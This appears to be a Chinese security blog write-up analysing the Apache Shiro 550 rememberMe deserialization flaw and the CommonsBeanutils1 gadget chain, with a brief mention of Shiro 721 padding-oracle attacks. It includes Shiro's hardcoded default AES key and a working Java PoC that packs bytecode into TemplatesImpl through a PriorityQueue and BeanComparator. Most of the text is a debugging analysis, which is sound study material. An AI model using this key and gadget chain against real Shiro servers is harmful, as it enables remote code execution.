shrio 550
前言：对
PropertyUtils.getProperty()中的一些流程进行调试，分析出descriptors中值怎么来，为什么是这些值，从而明白poc中这段代码为什么这么设置BeanComparator beanComparator = new BeanComparator("outputProperties");其他没什么新思考了，本文主要是分析
CommonsBeanutils链的
代码环境
看这条链子主要是惦记着shrio，这里大概记录下shrio的流程吧，也不复杂，就不单独拿出来讲了
CookieRememberMeManager#getRememberedSerializedIdentity
这里会获取我们rememberMe的值进行base64解码返回

AbstractRememberMeManager#convertBytesToPrincipals()
这里会对base64解密后bytes再进行一次AES解密，解密后再进行我们反序列化操作（这也是为什么我们需要密钥，就是这里用来AES解密的）

decrypt()
可以看到是CBC PKCS5Padding这种模式，AES 128位 的加密

密钥在这个类上面就能看到
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
deserialize()

注意这里shiro中ClassResolvingObjectInputStream重写了ObjectInputStream里的resolveClass方法，这里非 Java 原生的数组会反序列化失败
这就导致只要 cc 链包含了 Transformer 数组, 都会利用失败
参考文章 (写的很详细): https://blog.zsxsoft.com/post/35
Shiro resovleClass使用的是ClassLoader.loadClass()而非Class.forName()，而ClassLoader.loadClass不支持装载数组类型的class。
@Override
protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
try {
return ClassUtils.forName(osc.getName());
} catch (UnknownClassException e) {
throw new ClassNotFoundException("Unable to load ObjectStreamClass [" + osc + "]: ", e);
}
}

这里ClassUtils.forName寻找类的方式跟ObjectInputStream的不一样
下面这个数组类型最后会到URLClassLoader#findClass()=>getResource()
[Lorg.apache.commons.collections.Transformer;
这里外层是一个for循环，把每个Appcalssload会查找类的路径，在getResource()和要查找的Class进行包含判断，
这里我们Class包含metaIndex，才会进行后面的代码，没有就返回false
正常类是没有问题的，但是数组类型的类话路径上开头是[L，怎么会有对应的路径能查找到呢，所以报错
for (int i = 0; (loader = getLoader(i)) != null; i++) {
Resource res = loader.getResource(name, check);
if (res != null) {
return res;
}
}

所以这里CC需要改造成无数组的poc，我这里就不记录，也是用的前面CC的方法整合的，感兴趣可以看下面参考的连接
CommonsBeanutils1
CommonsBeanutils1是用来解决shiro无CC依赖的问题，shiro自带CommonsBeanutils依赖，所以这链子有可以叫shiro无依赖链
环境
pom.xml 有点杂，反正这个能打
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>com.govuln</groupId>
<artifactId>shiroattack</artifactId>
<version>1.0-SNAPSHOT</version>
<name>shiroattack</name>
<!-- FIXME change it to the project's website -->
<url>http://www.example.com</url>
<properties>
<project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
<maven.compiler.source>1.8</maven.compiler.source>
<maven.compiler.target>1.8</maven.compiler.target>
</properties>
<dependencies>
<dependency>
<groupId>org.apache.shiro</groupId>
<artifactId>shiro-core</artifactId>
<version>1.2.4</version>
</dependency>
<dependency>
<groupId>org.javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.27.0-GA</version>
</dependency>
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
<scope>compile</scope>
</dependency>
<dependency>
<groupId>org.apache.shiro</groupId>
<artifactId>shiro-core</artifactId>
<version>1.2.4</version>
</dependency>
<dependency>
<groupId>org.apache.shiro</groupId>
<artifactId>shiro-web</artifactId>
<version>1.2.4</version>
</dependency>
<dependency>
<groupId>javax.servlet</groupId>
<artifactId>javax.servlet-api</artifactId>
<version>3.1.0</version>
<scope>provided</scope>
</dependency>
<dependency>
<groupId>javax.servlet.jsp</groupId>
<artifactId>jsp-api</artifactId>
<version>2.2</version>
<scope>provided</scope>
</dependency>
<!-- https://mvnrepository.com/artifact/commons-collections/commons-collections -->
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/commons-logging/commons-logging -->
<dependency>
<groupId>commons-logging</groupId>
<artifactId>commons-logging</artifactId>
<version>1.2</version>
</dependency>
<dependency>
<groupId>org.slf4j</groupId>
<artifactId>slf4j-api</artifactId>
<version>1.7.30</version>
</dependency>
<dependency>
<groupId>org.slf4j</groupId>
<artifactId>slf4j-simple</artifactId>
<version>1.7.30</version>
</dependency>
</dependencies>
<build>
<pluginManagement><!-- lock down plugins versions to avoid using Maven defaults (may be moved to parent pom) -->
<plugins>
<!-- clean lifecycle, see https://maven.apache.org/ref/current/maven-core/lifecycles.html#clean_Lifecycle -->
<plugin>
<artifactId>maven-clean-plugin</artifactId>
<version>3.1.0</version>
</plugin>
<!-- default lifecycle, jar packaging: see https://maven.apache.org/ref/current/maven-core/default-bindings.html#Plugin_bindings_for_jar_packaging -->
<plugin>
<artifactId>maven-resources-plugin</artifactId>
<version>3.0.2</version>
</plugin>
<plugin>
<artifactId>maven-compiler-plugin</artifactId>
<version>3.8.0</version>
</plugin>
<plugin>
<artifactId>maven-surefire-plugin</artifactId>
<version>2.22.1</version>
</plugin>
<plugin>
<artifactId>maven-jar-plugin</artifactId>
<version>3.0.2</version>
</plugin>
<plugin>
<artifactId>maven-install-plugin</artifactId>
<version>2.5.2</version>
</plugin>
<plugin>
<artifactId>maven-deploy-plugin</artifactId>
<version>2.8.2</version>
</plugin>
<!-- site lifecycle, see https://maven.apache.org/ref/current/maven-core/lifecycles.html#site_Lifecycle -->
<plugin>
<artifactId>maven-site-plugin</artifactId>
<version>3.7.1</version>
</plugin>
<plugin>
<artifactId>maven-project-info-reports-plugin</artifactId>
<version>3.0.0</version>
</plugin>
</plugins>
</pluginManagement>
<plugins>
<plugin>
<groupId>org.apache.maven.plugins</groupId>
<artifactId>maven-compiler-plugin</artifactId>
<configuration>
<source>8</source>
<target>8</target>
</configuration>
</plugin>
</plugins>
</build>
</project>
漏洞起源于 PropertyUtils, 其 getProperty 方法能够调用任意类的 getter
PropertyUtils.getProperty(person, "name"); // person.getName();
org.apache.commons.beanutils.BeanComparator 的 compare 方法会通过 getProperty 分别调用两个对象的 getter

这里就联想到CC2的开头，CC2开头那个类是jdk原生的所以可以直接用，链子就完整了，调试也很简单，自己改改就好了
利用链
Gadget chain:
PriorityQueue.readObject()
PriorityQueue.heapify()
PriorityQueue.siftDown()
PriorityQueue.siftDownUsingComparator()
BeanComparator.compare()
PropertyUtils.getProperty()
TemplatesImpl.getoutputProperties()
poc
package com.govuln.shiroattack;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
public class mycode {
public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
Field field = obj.getClass().getDeclaredField(fieldName);
field.setAccessible(true);
field.set(obj, value);
}
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(com.govuln.shiroattack.Evil.class.getName());
byte[] bytecode = clazz.toBytecode();
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_bytecodes", new byte[][]{bytecode});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
//BeanComparator beanComparator = new BeanComparator("outputProperties");
BeanComparator beanComparator = new BeanComparator("outputProperties");
PriorityQueue priorityQueue = new PriorityQueue(2,beanComparator);
priorityQueue.add(obj);
// priorityQueue.add(1);
Field size = priorityQueue.getClass().getDeclaredField("size");
size.setAccessible(true);
size.setInt(priorityQueue, 2);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(priorityQueue);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
链子很简单没啥分析，但是PropertyUtils.getProperty()里面有很多步骤，这里主要分析下getPropertyDescriptors()这个东西
getTargetPropertyInfo()
PropertyUtils.getProperty()中会一直到getSimpleProperty()这里
- 第一步根据bean和name获取descriptor
- 获取descriptor对应的Method
- invoke执行这个Method

最主要的一步就是getPropertyDescriptor(),我们跟进去，主要就下面的代码
PropertyDescriptor[] descriptors = getPropertyDescriptors(bean);
if (descriptors != null) {
for (int i = 0; i < descriptors.length; i++) {
if (name.equals(descriptors[i].getName())) {
return (descriptors[i]);
}
}
}
根据bean(TemplatesImpl)通过getPropertyDescriptors，得到descriptors，然后for根据我们传入的name，返回对应的descriptor。
我当时就好奇为什么
TemplatesImpl只返回这几个值，为什么有getoutputProperties，一切道理都在getPropertyDescriptors中，我们跟进

到Introspector.getBeanInfo，后面的调试会很乱，会去找父类的getBeanInfo方法直到null（object）//这里看不懂也没关系，大概知道干了啥
我们主要注意的是TemplatesImpl的getBeanInfo()，以及getTargetPropertyInfo()因为他其实就是获取Properties的，也就是上面descriptors的核心值

【*】好戏开场 Properties由来
在java/beans/Introspector.java#getTargetPropertyInfo()中
我们直接看到Method获取这里，会获取beanClass(TemplatesImpl)的所有Public Method，然后通过下面这个for进行添加，这个for就是核心代码
可以看到不能是static方法，不能Method长度<=3也不行（除非is开头方法）

String name = method.getName();
Class<?>[] argTypes = method.getParameterTypes();
Class<?> resultType = method.getReturnType();
int argCount = argTypes.length;
PropertyDescriptor pd = null;
这一段进行一些初始化
然后下面这段if，满足条件的会给pd进行赋值，比如getoutputProperties
第一个if (没有参数)
第二个if（get开头）
满足！给pd赋值，这里注意传参的值，name会去掉前三位，所以后面name是outputProperties
setter，getter都是去除前3位，is是2位

进行这些判断后，pd有值的会add到Properties（并不是代码中这个值，这个名字作为一个理解的代表）

到这里其实就明白Properties是怎么来的了，为什么是这些值，其实在jackson那个地方获取到getter方法Properties应该是异曲同工（那时我好像没细看，今天刚好来兴致了）
总结 Properties
后面又遇到这个问题了，写了个demo测了，然后做个总结
首先都要是
public 方法其次会递归通过下面这种方式查找
父类符合的方法
len>3 or is开头(也就是get()这种不行，is()可以)
is
- is开头
- 无参 & 返回(**
boolean**类型)值getter型
- get开头
- 无参 or 1个(**
int**类型)参数setter
set开头
1个参数 & 无返回值（
void）or
2个参数 & 无返回值（
void）& 第一个参数为（**int**类型)
import org.apache.commons.beanutils.PropertyUtilsBean;
import java.beans.BeanInfo;
import java.beans.IntrospectionException;
import java.beans.Introspector;
import java.beans.PropertyDescriptor;
public class getter extends PropertyUtilsBean {
public synchronized String isIS() {
return "_bytecodes";
}
public boolean isboolean() {
return true;
}
public boolean is() {
return true;
}
public synchronized String get0param() {
return "_bytecodes";
}
public synchronized String get() {
return "_bytecodes";
}
public synchronized String getStr(String name) {
return name;
}
public synchronized int getint(int name) {
return name;
}
public synchronized int sethas(int name) {
return name;
}
public synchronized void setvoid(int name) {
;
}
public synchronized void set2voidint1(int one,String name) {
;
}
public synchronized void set2voidint2(String name,int two) {
;
}
public synchronized int set2voidint2(int name,int two) {
return two;
}
public static void main(String[] args) throws IntrospectionException {
BeanInfo beanInfo = Introspector.getBeanInfo(getter.class); // 假设你的类名是Getter
PropertyDescriptor[] descriptors = beanInfo.getPropertyDescriptors();
// 遍历并打印每个属性描述符
for (PropertyDescriptor pd : descriptors) {
System.out.println(pd);
}
}
}
shiro 721
这里简单提一嘴吧，原理是跟密码学相关的，看了理解也不是很好做个记录
经过
shiro550后，shiro密钥变成随机的了，但是可以利用**Padding Oracle Attack攻击**（加密算法的缺陷）在不知道密钥的情况下构造出恶意密文进行攻击，但是有一个条件需要一个合法的Cookie，这个Cookie是用来爆破的。
这里总结很简陋！_!可以看看参考都是不错的文章
参考
shiro550
shiro721
https://www.anquanke.com/post/id/193165#h3-10
https://xz.aliyun.com/t/11633?time__1311=Cq0xRQiQwxgDlxGg6Du7YDkYG8BmhYt3x